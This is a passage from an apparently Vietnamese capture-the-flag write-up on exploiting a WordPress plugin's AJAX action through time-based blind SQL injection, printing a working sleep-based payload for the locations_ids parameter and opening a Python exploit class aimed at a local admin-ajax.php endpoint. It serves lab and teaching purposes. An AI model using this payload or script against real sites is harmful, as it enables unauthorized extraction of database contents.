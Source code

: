 ![alt text](image-2.png)<br>
Payload 2: action=w2dc_get_map_marker_info&locations_ids%5B%5D=(select+if(1=1,sleep(6),0)+from+(select+1)x) <br>
![alt text](image-3.png) <br>
Vậy đã thành công inject được lệnh thành công và tiếp theo có thể sử dụng blind_sql với sleep để trích xuất flag <br>
## Khai thác
Với những điều đã nói trên mình sẽ viết tập lệnh python khai thác và bảng ctf_flag mình sẽ chuyển sang dạng hex tranh dấu nháy ' payload đi qua URL decode <br>
```python

import time, requests, string
from urllib.parse import quote_plus

class Exploit:
    def __init__(self, baseURL, timeout=40, sleep_exec=6):
        self.baseURL = baseURL.rstrip("/")
        self.u = "http://127.0.0.1:80/cms/wp-admin/admin-ajax.php"
        self.timeout = timeout
        self.sleep = int(sleep_exec)
```